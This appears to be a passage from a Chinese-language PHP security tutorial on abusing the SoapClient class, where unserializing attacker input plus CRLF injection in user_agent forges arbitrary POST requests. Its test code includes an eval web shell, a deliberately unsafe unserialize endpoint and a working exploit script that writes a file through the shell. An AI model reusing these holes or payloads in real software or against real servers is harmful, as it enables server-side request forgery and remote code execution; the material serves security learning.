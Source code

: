 <img src="./PHP原生类/2.png" alt="">


> 正常情况下的`SoapClient`类调用一个不存在的函数会去调用`__call()`方法，发出请求，`SoapClient`发出的请求包的`user_agent`是完全可控的，结合`CRLF注入`可以构造一个完全可控的`POST请求`，因为`POST请求`最关键的`Content-Length`和`Content-Type`都在`user_agent`之下；如果是`GET请求`就简单得多，只需要构造好`location`就可以，需要注意的是`SoapClient`只会发出请求而不会收到响应

> 测试代码：
```php
[+] shell.php
<?php
    if($_SERVER['REMOTE_ADDR'] == '127.0.0.1') {
        @eval($_REQUEST['cmd']);
    }
?>

[+] index.php
<?php
    $demo = unserialize($_GET['h3rmesk1t']);
    $demo->d1no();
?>

[+] exp.php
<?php
    $target = 'http://127.0.0.1/Demo/shell.php';
    $post_string = 'cmd=file_put_contents("C:/Tools/phpstudy_pro/WWW/Demo/info.php", "<?php phpinfo();?>");';
    $headers = array(
        'X-Forwarded-For: 127.0.0.1',
        'Cookie: aaaa=ssss'
    );
    $user_agent = 'aaa^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string;
    $options = array(
        'location' => $target,
        'user_agent'=> $user_agent,
        'uri'=> "aaab"
    );

    $b = new SoapClient(null, $options);

    $aaa = serialize($b);
    $aaa = str_replace('^^', '%0d%0a', $aaa);
    $aaa = str_replace('&', '%26', $aaa);
    echo $aaa;
?>
```